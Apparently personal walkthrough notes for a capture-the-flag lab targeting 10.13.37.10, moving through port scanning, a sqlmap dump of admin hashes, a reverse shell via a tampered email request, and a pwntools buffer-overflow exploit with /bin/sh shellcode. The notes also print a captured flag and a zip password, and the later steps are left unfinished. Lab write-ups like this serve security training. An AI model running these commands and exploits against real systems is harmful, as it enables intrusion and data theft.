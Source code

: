 1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
![[Pasted image 20230913121421.png]]
7) Get a reverse shell and look on /home/leak. Download it locally and exploit
```python3
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```
8) Expose the binary using socat and launch the exploit
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &amp;
```
![[Pasted image 20230913143408.png]]
9) Xor non fatto
```
Hello mate!  
First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!  
Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.  
Make sure those binaries are kept safe!  
To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.  
The ports are 5555 and 7777.  
Have fun and keep it safe!  
JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}  
Cheers - Alex
```
10) Elasticity is broken
11) Unzip "Exploitme.zip" with the same key used fo xor crypted message (securewebincrocks)
![[Pasted image 20230914104419.png]]
12) Exploit the membermanager program
